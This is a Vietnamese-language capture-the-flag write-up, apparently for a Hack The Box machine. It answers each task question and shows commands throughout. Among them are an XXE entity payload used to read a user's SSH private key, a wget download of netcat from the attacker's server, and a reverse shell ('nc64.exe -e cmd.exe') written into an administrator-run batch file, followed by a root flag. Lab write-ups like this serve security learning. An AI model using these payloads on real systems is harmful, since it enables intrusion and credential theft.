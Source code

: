 - ip: 10.129.229.142 
- scan nmap: nmap -sC -Pn -A 'ip' trong đó -A là quét hệ điều hành

  ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/5a6f6d94-7ec6-458b-b9b5-273598c8a0d1)

- Task 1: What version of Apache is running on the target's port 80?:  Apache/2.4.41


![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/e0c867e6-b3f1-49e4-84d4-7b6f4765135d)

- Tiến hành nhập thử: admin:password được luôn
- Task 2: What username:password combination logs in successfully? admin:password 

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/817f7d9d-1add-42bd-bc94-72e4f63c6f19)

- Task 3: What is the word at the top of the page that accepts user input? order

-Task 4: What XML version is used on the target? 1.0

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/482bbfc1-3a12-4145-aac6-dd739ba0513e)

- Bật burp suite bắt request. Thì thấy ngay phiên bản là 1.0
- Task 5: What does the XXE / XEE attack acronym stand for?: XML External Entity
- (https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
- trong khi quét nmap ta nhận biết được hệ điều hành của mục tiêu là windowns 10
- Ta sẽ sử dụng <!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]> để lấy file rsa của daniel. Thư mục C:\Users\your_username\.ssh\.
- 
![image](https://github.com/user-attachments/assets/d41997f3-657d-41b8-9e86-2b5159921c65)

![image](https://github.com/user-attachments/assets/1cee386d-6bb9-49a8-9059-2d15b43da55b)

![image](https://github.com/user-attachments/assets/51234349-f114-45fc-8a8e-cc63c76a3672)

- Tạo 1 file id_rsa copy đoạn mã vào rồi tiến hành kết nối ssh.
![image](https://github.com/user-attachments/assets/e302ab0c-2a64-4727-a59d-fa17a35ca3e6)

![image](https://github.com/user-attachments/assets/9e90d411-276b-4cef-a292-66faddcfa0a3)

- Task 7 What is the file located in the Log-Management folder on the target? job.bat 
![image](https://github.com/user-attachments/assets/3b112583-9fde-473d-8c4b-db6ac7797043)
- Ta thấy chữ wevtutil. Sau khi xem quyền hạn của file john.bat.
- User có quyền chỉnh sửa, tệp này được thực thi bởi quản trị viên. Tiến hành mở xem cách tiến trình đang chạy.
![image](https://github.com/user-attachments/assets/31fbffd6-091c-4773-b122-7911d22fe0fc)

- Tiến trình wevtutil.exe đang được chạy. Ta sẽ sửa nó.
- Task 8: What executable is mentioned in the file mentioned before?  wevtutil.exe
- Ta tạo 1 kết nối từ máy daniel sang máy tấn công.
![image](https://github.com/user-attachments/assets/4d746d3b-9408-4c1e-8a21-ab2be0155ab7)

- Không kết nối được internet.
-  https://github.com/rahuldottech/netcat-for-windows/releases/nc64.exe
- rồi mở server của máy tấn công python 3 -m http.server 80
- chạy lệnh wget http://ip/nc64.exe  -outfile nc64.exe lên máy daniel

![image](https://github.com/user-attachments/assets/6ec054cc-4750-4c72-af2a-cd756d92209d)

- echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.14.23 1289 > C:\Log-Management\job.bat
- lệnh này sẽ chỉnh sửa tệp john.bat đang được chạy. Sử dụng nc để kết nối tới máy Daniel

- ![image](https://github.com/user-attachments/assets/f483ec10-2377-4af6-9c33-005fbe2889cb)
- cd C:\Users\Administrator\Desktop. type root.txt
- Flag: f574a3e7650cebd8c39784299cb570f8
